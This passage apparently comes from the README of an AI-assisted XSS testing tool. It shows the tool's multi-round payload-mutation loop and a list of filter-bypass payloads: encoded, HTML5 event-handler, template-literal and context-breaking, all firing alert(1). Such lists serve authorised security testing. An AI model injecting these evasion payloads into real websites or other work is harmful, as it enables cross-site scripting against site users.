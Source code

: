 ### 3. Intelligent Testing
```
Test Payload → Failed? → AI Mutation → Retry (up to 3 rounds)
                ↓
            Success! → Report
```

### 4. Multi-Round Learning
```
Round 1: Basic AI payloads (20 payloads)
   ↓ Failed
Round 2: Advanced mutations analyzing what was blocked (15 payloads)
   ↓ Failed
Round 3: Highly obfuscated polyglot payloads (15 payloads)
   ↓
Success or Give Up
```

## 🎨 Bypass Techniques

### 1. Encoding Bypasses
```javascript
// HTML Entities
<img src=x onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">

// Base64
<svg/onload=eval(atob('YWxlcnQoMSk='))>

// Character Codes
<img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,49,41))>

// Unicode
<script>alert\u0028\u0031\u0029</script>
```

### 2. HTML5 Bypasses
```html
<details open ontoggle=alert(1)>
<svg><animate onbegin=alert(1) attributeName=x dur=1s>
<marquee onstart=alert(1)>
<video src=x onloadstart=alert(1)>
```

### 3. Template Literals
```javascript
<script>alert`1`</script>
<img src=x onerror=alert`XSS`>
```

### 4. Context Breaking
```javascript
';alert(1);//
"-alert(1)-"
</script><script>alert(1)</script>
```

